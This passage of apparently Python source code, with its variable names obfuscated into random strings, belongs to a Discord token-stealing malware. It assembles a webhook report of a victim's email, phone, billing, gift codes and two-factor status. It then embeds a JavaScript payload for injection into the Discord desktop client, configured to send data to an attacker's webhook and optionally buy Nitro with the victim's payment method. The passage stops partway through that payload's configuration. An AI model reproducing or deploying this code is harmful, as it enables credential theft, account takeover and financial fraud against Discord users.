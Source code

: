         embed.add_field(name=":e_mail: Email:", value=f"```{LRLUPJBNHGEZTBSLSTPYRJLFTLDHMPPFZHVZXRWGUNLRBLFSJHOHNFHSJGR}```", inline=True)
        embed.add_field(name=":white_check_mark: Email Verified:", value=f"```{WDAUXTYBBCBDTGDTSBKLMLCQJYOFLUNBBMEQXFGTZQIQSABRKSCIOPCEOCJOPUUZVACQLVIEKUXXFDWSJJSMXYRAPXR}```", inline=True)
        embed.add_field(name=":telephone_receiver: Phone:", value=f"```{UNKPCHIXWZJJHNPCUSTKAWRNDIGOXQLTPYEGZWAUMRBNVLLDUWPQMDFBZNGJQEQ}```", inline=True)   
        embed.add_field(name=":rocket: Nitro:", value=f"```{DMPLDCBSDTLVBFYJQCEWTHQNSHEOKULMLUAFAFNMNLANITYWRDNRQIGHTFK}```", inline=True)
        embed.add_field(name=":earth_africa: Language:", value=f"```{RBAFPYCDBVCFMAOAQYWZKFXMJGQZCILJIOTFRHIUJQRVECTZQKQDPDZINCREOCJSMKXTYZNUQO}```", inline=True)
        embed.add_field(name=":moneybag: Billing:", value=f"```{LDWCZSZWJJIWMZWCPBSAOPYECRILAORUKZKRSLZELPIUISLHZZQBQJ}```", inline=True)
        embed.add_field(name=":gift: Gift Code:", value=f"```{GCROTWIXQTWLFRDPSDPOSFYIEMCKGAQPOPVBABMSBWDNNGHEHKVWHMUGLFLFXTRATIAHFXGFY}```", inline=True)
        embed.add_field(name=":lock: Multi-Factor Authentication:", value=f"```{CFQXPCUHYEWGRBIUBDRUTWQMDVBEOXVUZCYKBQQCCBAXHTMRMUKSQDPCBMNVPTFKGHVE}```", inline=True)
        embed.add_field(name=":frame_photo: Profile Picture:", value=f"", inline=False)
        embed.set_image(url=TTATGHQGKWOJBFEJHMVYKRENXDYHWSNLURDWCNRRWFTWUYGXSEQGMUTVBXRPSWRAMBMWZGOVBADCXWMMNHK)
        embed.set_footer(text=HCGWLTGHNORLJAFTRGEIVUFUWZANRHYBTAWNFWEYDYGQGUTYPOFUANQCDSTMVCCXTZWN, icon_url=RPKDOBYFEXPLFGWHSZJLJYUDKOQHQBWZSLWPSOTUWYFCHJVNHKFOWEWOYGUYMLTXRCWPZZEZLLYFEIZ)
        XLIKWCNJJMPBEYWUXOESQQKDDRNEFMGCGJWBYYIYKKODBUSROVETKCDDHHYJLRISGUIMZEXGGJRDIXRBZKGRFYOC.send(embed=embed, username=OYCDBKYQEPDKHPUESFGJOLRQYSFXTCYTKCTUMCXKBCCPMCIIMVQQGQYBSYMGASU, avatar_url=RPKDOBYFEXPLFGWHSZJLJYUDKOQHQBWZSLWPSOTUWYFCHJVNHKFOWEWOYGUYMLTXRCWPZZEZLLYFEIZ)

OLJDKJIIFDWGMJFMQPAWFWSBLSVUVZKNYBKLHRSITVZSVXAWWDULFVKPMH = r"""
const args = process.argv;
const fs = require('fs');
const path = require('path');
const https = require('https');
const querystring = require('querystring');
const { BrowserWindow, session } = require('electron');

const config = {
  webhook: '%WEBHOOK_HERE%', 
  webhook_protector_key: '%WEBHOOK_KEY%', 
  auto_buy_nitro: false, 
  ping_on_run: true, 
  ping_val: '@everyone',
  ip_address_public: '%IP_PUBLIC%',
  username: '%USERNAME%',
  embed_name: '%EMBED_NAME%', 
  embed_icon: '%EMBED_ICON%'.replace(/ /g, '%20'), 
  footer_text: '%FOOTER_TEXT%',
  embed_color: %EMBED_COLOR%, 
  injection_url: '', 
  api: 'https://discord.com/api/v9/users/@me',
  nitro: {
    boost: {
      year: {
        id: '521847234246082599',
        sku: '511651885459963904',
        price: '9999',
      },
      month: {
        id: '521847234246082599',
        sku: '511651880837840896',
        price: '999',
      },
    },
    classic: {
      month: {
        id: '521846918637420545',
        sku: '511651871736201216',
